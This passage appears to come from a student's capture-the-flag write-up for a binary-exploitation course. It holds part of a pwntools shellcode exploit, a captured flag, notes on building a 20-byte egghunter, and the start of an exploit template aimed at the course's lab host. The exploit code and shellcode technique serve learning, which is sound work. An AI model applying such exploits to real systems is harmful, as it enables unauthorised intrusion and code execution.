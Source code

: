 ```
"""
shellcode1 = asm(my_assembly)
nopsled = """
nop
"""
shellcode2 = asm(nopsled)

call_eax = p32(0x08049019)

shellcode = shellcode1 + shellcode2 * (8192 + 8 - len(shellcode1))

p.sendline(shellcode + call_eax)
# pause()
p.interactive()
```

find-me
========================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMi1maW5kLW1lIiwiaXAiOiIxNDQuMTM2LjI4LjM2Iiwic2Vzc2lvbiI6Ijk0MDJmYzc4LTdiOWQtNGU2OS04MTNjLTczNzQ5YmU5NGIzNiJ9.ZGLtvRI4SDusEOYHA2bT7i-V84pvRB73I1bxk97azvk}
General overview of problems faced
------------------------------------------------------
Need to create an egghunter, some egghunters use two eggs.
Looks like small buffer fgets 20 bytes.
Big buffer fgets 256 bytes
flag open at FD 1000
Most syscalls are disabled, searched online how to create egghunters, but most use the access(2) syscall to ensure we do not try to access regions we are not allowed to access.
Egg and read/write shellcode go into bigbuf, while the egghunter goes into the smallbuf.
Segmentation faults even when smallbuf only contains mov ebx, 0x50905090. Program doesn't jump to bigbuf so something wrong with smallbuf
Added syscalls to access(2), but seg faults still occuring, probably disabled or something wrong with my smallbuf assembly.
Built from simple egghunter to the complicated access checking ones but no change.
Tried both inc and dec to see if the the small buffer was below or above, but still getting seg faults.
SOLUTION FOUND
I decided to drop the p32() and just insert the instructions in the bigbuf assembly. I used 0x4f904790 which is just nop, inc edi, nop, dec edi.
I also dropped the access() checks for seg faults cos they went over the 20 byte limit.
***Worked on this for 3 days*** Had to look up how to make egghunters.
Script/Command used
--------------------------------------------------------
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './find-me' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 24973 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

```